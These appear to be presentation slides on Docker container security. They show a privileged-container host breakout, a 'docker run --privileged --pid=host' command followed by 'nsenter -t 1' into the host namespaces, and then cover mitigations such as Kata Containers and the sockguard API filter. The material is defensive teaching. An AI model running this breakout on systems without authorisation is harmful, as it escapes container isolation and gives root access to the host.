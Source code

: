 ## Privileged Containers

### Privileged containers have access to all syscalls

If able to start containers, just leave the isolation:

```bash
docker run -it \
    --privileged \
    --pid=host \
    alpine \
	nsenter -t 1 -m -u -n -i sh
```

### Parameters of `nsenter`

- Work with namespaces (`nsenter`)
- Uses process tree of host (`--pid=host`)
- Get namespace from PID 1 (`-t 1`)
- Enter namespaces required for shell (`-m -u -n -i`)

--

## Demo: Privileged Containers

Running privileged containers:

```bash
docker run -it --rm --privileged --pid host alpine
```

Host breakout from privileged container:

```bash
nsenter -t 1 -m -u -n -i sh
```

--

## Taming Privileges Containers

### For example

![](https://katacontainers.io/assets/img/logo_white.e69d7ea6.svg) <!-- .element: style="width: 35%" -->

Isolates containers in a lightweight VM

Configured as a container runtime (instead of `runc`)

XXX demo?

--

## Docker Engine API Filter

For example [`sockguard`](https://github.com/buildkite/sockguard)

- No privileged containers
- No host bind mounts
- No host network

```bash
/sockguard \
    -upstream-socket /var/run/docker-raw.sock \
    -filename /var/run/docker.sock
```